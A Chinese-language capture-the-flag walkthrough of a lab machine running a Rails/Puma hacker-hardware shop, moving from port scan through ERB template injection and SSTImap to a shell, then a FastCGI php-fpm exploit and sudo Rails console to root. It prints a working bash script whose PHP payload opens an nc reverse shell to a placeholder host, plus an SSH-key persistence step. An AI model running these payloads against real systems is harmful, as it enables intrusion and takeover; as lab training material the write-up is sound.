 ![Pasted image 20240913144412](https://github.com/user-attachments/assets/92d66147-3fad-43d1-a4f8-41218a78bd63)


# 端口扫描
```
`PORT     STATE SERVICE  VERSION`  
`22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`  
`| ssh-hostkey:`    
`|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)`  
`|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)`  
`3000/tcp open  ssl/ppp?`  
`| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR`  
`| Not valid before: 2024-05-20T15:36:20`  
`|Not valid after:  2038-01-27T15:36:20`  
`|_ssl-date: TLS randomness does not represent time`  
`| fingerprint-strings:`    
`|   GenericLines:`    
`|     HTTP/1.0 400 Bad Request`  
`|     Content-Length: 930`  
`|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in execute'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in try_to_finish'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in reactor_wakeup'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in block in run'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in wakeup!'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in block in select_loop'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select_loop'`  
`|     /usr/loc`
```
通过搜索发现3000端口为Rails的Puma服务器默认端口

# 功能测试

访问 https://xx.xx.xx.xx:3000 会进入如下网页，网页提供了hacker的硬件推荐，例如Filpper Zero啥的
![Pasted image 20240913144903](https://github.com/user-attachments/assets/1a1caa98-6625-4b90-90a2-1a7d2f6e4bf0)

我们随意点击一个超链接，如图所示
![Pasted image 20240913145108](https://github.com/user-attachments/assets/8a59f08c-9416-49ee-92c6-36c8d9313755)

接下来我们搜索一下，看看有没有什么设备是没有的
![Pasted image 20240913145228](https://github.com/user-attachments/assets/2893f69b-6a9d-481f-b57c-0b60dcefce2c)

注意后面的message,为Product+does+not+exist，很明显了，这里有ssti的问题，可以搞ssti注入，但是因为这个服务器是由Ruby搭建的（具体来说是Ruby on Rails），你直接搜ssti还不行，这里应该说是ERB Template injection（ERB示例注入）。
参考链接：[ERB-SSTI](https://www.trustedsec.com/blog/rubyerb-template-injection)

我们以<%=7 * 7%>为载荷测试一下，用burpsuite更改一下message后面的内容

![Pasted image 20240913145806](https://github.com/user-attachments/assets/5f340c27-c28f-467d-b970-d818dc790f4b)

发现确实可以运行，那么这里推荐一个工具，[SSTIMap](https://github.com/vladko312/SSTImap)，--help展示如下
```bash
nwkyo@Fruit ~/C/h/hackingtoys> python ../../../Tools/SSTImap/sstimap.py -h

usage: sstimap.py [-h] [-V] [--config CONFIG] [--no-color] [-u URL] [-i] [--load-urls LOAD_URLS] [--load-forms LOAD_FORMS] [-M MARKER] [-d DATA]`  
                 `[--data-type DATA_TYPE] [--data-params KEY=VALUE] [-H HEADER] [-C COOKIE] [-m METHOD] [-a USER_AGENT] [-A] [--delay DELAY]`  
                 `[-p PROXY] [--verify-ssl] [--log-response] [-c CRAWL_DEPTH] [-f] [--empty-forms] [--crawl-exclude CRAWL_EXCLUDE]`  
                 `[--crawl-domains CRAWL_DOMAINS] [--save-urls SAVE_URLS] [--save-forms SAVE_FORMS] [-l LEVEL] [-L LEVEL CLEVEL] [-e ENGINE]`  
                 `[-r TECHNIQUE] [--blind-delay TIME_BASED_BLIND_DELAY] [--verify-blind-delay TIME_BASED_VERIFY_BLIND_DELAY] [--legacy]`  
                 `[--skip-generic] [--run] [-t] [-T TPL_CODE] [-x] [-X EVAL_CODE] [-s] [-S OS_CMD] [-B PORT] [-R HOST PORT]`  
                 `[--remote-shell REMOTE_SHELL] [-F] [-U LOCAL REMOTE] [-D REMOTE LOCAL]
```

和sqlmap用法差不多，同样的-u提供url，所以我们要测试messages是否如我们所料的那样

```
python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*'

[+] Erb plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code
……
```

确实如我们所想的那样哈，sstimap和sqlmap一样有`--os-shell`功能，直接在后面添加即可
```
python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*' --os-shell
```
![Pasted image 20240913150617](https://github.com/user-attachments/assets/343935e0-b9d7-41a8-af46-2788b5c4cfb5)


Now we‘re in

# 用户过程

## lidia

我们通过上述方法进入到的用户是lidia用户，具体怎么确认用户这里不做叙述
可以下载linpeas.sh去跑一下是否有感兴趣的东西，这里我翻了很久之后看了一下端口以及进程

![Pasted image 20240913151003](https://github.com/user-attachments/assets/89dd8d8b-622a-458f-927b-aef3197b48d0)

发现本地起了9000端口，且用户dodi在运行php-fpm，后面我百度了一下发现了某个大佬的随笔说php-fpm可以直接rce,参考链接在这里：[https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/)

脚本内容如下：
```
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```
不过在写入这个脚本前记得做持久化登录，Linux这里是做`.ssh/authorized_keys`,Windows的话我记得是写入WinLogon/Userlist注册表条目去

做完后写入保存，并运行，然后就进入dodi的世界里
![Pasted image 20240913151823](https://github.com/user-attachments/assets/0e2e3b79-c737-47b7-9480-13a4ea573f81)
![Pasted image 20240913151856](https://github.com/user-attachments/assets/169ba059-2dc8-4c16-b416-71cb30b5b9c9)

## dodi

进入之后常规检查sudo -l,发现如下内容
![Pasted image 20240913151954](https://github.com/user-attachments/assets/9fae6bb3-ec99-4d7c-87db-270d7dcc2009)


让我们看看这个脚本是怎么个事
![Pasted image 20240913152040](https://github.com/user-attachments/assets/3b250862-9ffe-43ab-b378-4c8156cad03f)

这里是说要先创建一个新的Rails应用才能进行下一步的操作，例如进console和测试应用，那么我们可以先创建一个Rails应用然后再进入console
```
sudo /usr/local/bin/rvm_rails.sh new rrc
```
因为我这里已经创建好了，所以不放过程，我们进入已经创建好的应用文件夹内，例如这里是rrc,进入后执行
```
sudo /usr/local/bin/rvm_rails.sh console
```
现在已经进入console里了，在这里已经获取root权限了，但是我们面对的是这么一个界面
![Pasted image 20240913152558](https://github.com/user-attachments/assets/d6443b11-b39d-47ba-9ce6-f0abcac3bc97)

有两种方式可以执行root命令：
1.
![Pasted image 20240913153015](https://github.com/user-attachments/assets/33d7b877-be0b-49b0-b2fa-2e645515093b)

2.创建一个xxxxx.rb，然后文件里就写如图所示的代码，然后通过irb_load去加载这个rb文件
![Pasted image 20240913153543](https://github.com/user-attachments/assets/dcb5088d-9348-48dc-9a22-066e64376f01)




